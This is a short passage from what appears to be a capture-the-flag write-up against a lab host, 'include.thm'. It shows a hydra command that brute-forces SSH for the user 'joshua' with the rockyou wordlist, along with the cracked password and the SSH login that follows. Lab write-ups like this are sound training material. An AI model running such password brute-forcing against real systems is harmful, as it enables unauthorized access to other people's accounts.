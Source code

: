 ![Pasted image 20250502232057.png](../../IMAGES/Pasted%20image%2020250502232057.png)

We got an user named `joshua`, let's bruteforce our way in:


```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
[22][ssh] host: include.thm   login: joshua   password: 123456
```

We can now go in ssh:

![Pasted image 20250502232411.png](../../IMAGES/Pasted%20image%2020250502232411.png)
